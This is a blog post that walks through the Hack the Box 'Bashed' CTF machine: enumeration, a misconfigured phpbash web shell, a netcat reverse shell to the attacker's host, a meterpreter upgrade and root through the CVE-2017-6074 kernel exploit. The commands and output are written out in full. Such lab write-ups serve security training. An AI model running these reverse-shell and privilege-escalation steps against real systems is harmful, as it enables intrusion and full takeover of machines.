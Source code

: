 ```yaml
---
title: Bashed, Hack the Box CTF Walkthrough
lead: Exploiting the Linux Kernel 4.4.0 (Ubuntu) - With DCCP Double-Free Privilege Escalation
tag: CTF
image: /assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/bashed.png
layout: post
style: blog2
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
description: "Bashed is an easy level CTF challenge from HTB, solved with an initial user compromise through a developer misconfiguration and privilege escalation with the Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation Exploit"
card: card-2
---
```


# Overview
<a href="https://app.hackthebox.eu/machines/118" class="highlighted">Bashed</a> is a boot to root CTF from the Hack the Box archives. This was one of my favorite retired HTB challenges so far. The challenge involves initial compromise using a developer's misconfigured server and requires significant more work to escalate privileges to root. This challenge forced me to think outside the box for managing shells and was overall a good CTF.  



## Enumeration  

First, I conducted a basic nmap scan to enumerate open ports and services running on the target machine. The scan revealed an apache webserver was running on port 80.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ nmap -sV --top-ports 200 10.10.10.68           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-05 09:06 EST
Nmap scan report for 10.10.10.68
Host is up (0.035s latency).
Not shown: 199 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
```  

## Web Application Testing   

Nexct, I launched BurpSuite and a firefox browser to being inspecting the target's web application. In the background, I started `dirb` a directory brute forcing tool. The resulting dirb scan revealed a directory called `dev`.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ dirb http://10.10.10.68         

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar  5 09:10:15 2021
URL_BASE: http://10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/                                                                                                          
==> DIRECTORY: http://10.10.10.68/dev/                                                                                                          
==> DIRECTORY: http://10.10.10.68/fonts/                                                                                                        
==> DIRECTORY: http://10.10.10.68/images/                                                                                                       
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)                                                                                            
==> DIRECTORY: http://10.10.10.68/js/                                                                                                           
==> DIRECTORY: http://10.10.10.68/php/                                                                                                          
+ http://10.10.10.68/server-status (CODE:403|SIZE:299)                                                                                          
==> DIRECTORY: http://10.10.10.68/uploads/    
```  

## Exploit Developer Tools  

After reading the index page of the website, I understood the server was also being used to develop the tool [php bash](https://github.com/Arrexel/phpbash). Browsing the /dev path shows that indeed, a working version of phpbash is running on the target server. The program allows a user to interact with a bash like terminal through the browser itself. I used this terminal to find the user flag, which was located at `/home/arrexel`.  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/user-flag.png">
    </div>
</div>
<br/>  


## Privilege Escalation  

To start the privilege escalation process, I wanted to upgrade my shell from the phpBash shell to a meterpreter one. Unfortunately, when trying to send a reverse shell to my attacker machine with `netcat`, an error message occured stating that the -e option was not available. This was because the installed version of netcat was the BSD flavor (netcat-openBSD), only the traditional netcat (netcat-traditional) supports the -e option which is required to send a reverse shell. To get around this, I found a <a class="highlighted" href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat">linux binary version</a>of the traditional netcat. After downloading the binary, I put in the `/var/www/html` directory to serve with the apache webserver, then used `wget` to download the file to the target machine through the dev phpBash terminal. 

```bash
www-data@bashed:/var/www/html/uploads# wget 10.10.14.13/ncat-d
```  

Next, I started a listener on my attack machine with the multi/handler on metasploit to catch the reverse shell.  

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
```  
Once the handler was started, I used the the phpBash sell to issue a reverse shell through the uploaded ncat binary. 

```bash
www-data@bashed:./ncat-d 10.10.14.13 4444 -e /bin/bash
```  


```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.68:48554) at 2021-03-05 18:34:33 -0500
```  

### Upgrading to Meterpreter Shell

Once I recieved the reverse shell, I background it with the cntl-z option. To upgrade this basic shell to a meterpreter one, I used the `multi/manage/shell_to_meterpreter` module. After configuring the necessary options, I executed the module and started the meterpreter session.  

```bash
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.10.14.13
LHOST => 10.10.14.13
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.13:4433 
[*] Sending stage (980808 bytes) to 10.10.10.68
[*] Meterpreter session 2 opened (10.10.14.13:4433 -> 10.10.10.68:42086) at 2021-03-05 18:38:50 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
```  

## Privilege Escalation via CVE-2017-6074

The last stage to escalate privileges was to find a public exploit that would work against the linux kernel. Some online research revealed that the Ubuntu 16.04 (Linux 4.4.0-62-generic) kernel being used by the target could be vulnerable to. CVE-2017-6074. I downloaded a proof of concept from <a class="highlighted" href="https://www.exploit-db.com/exploits/41458">exploi-db</a>. Using `GCC`, I compiled the exploit, then uploaded it to the target using the `upload` meterpreter command back in the metepreter session.  


```bash
meterpreter > upload /home/kali/Documents/htb/bashed/CVE-2017-6074
[*] uploading  : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] Uploaded -1.00 B of 23.19 KiB (-0.0%): /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] uploaded   : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
meterpreter > chmod 777 CVE-2017-6074 
meterpreter > shell
Process 819 created.
Channel 2 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:~/html/uploads$ 


www-data@bashed:~/html/uploads$ whoami
whoami
www-data
www-data@bashed:~/html/uploads$ ./CVE-2017-6074
./CVE-2017-6074
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x564e7dc912aa
[.] done
[.] should be root now
[.] checking if we got root
[+] got r00t ^_^
[!] don't kill the exploit binary, the kernel will crash
root@bashed:/var/www/html/uploads# whoami
whoami
root
root@bashed:/var/www/html/uploads# cat /root/root.txt
cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```


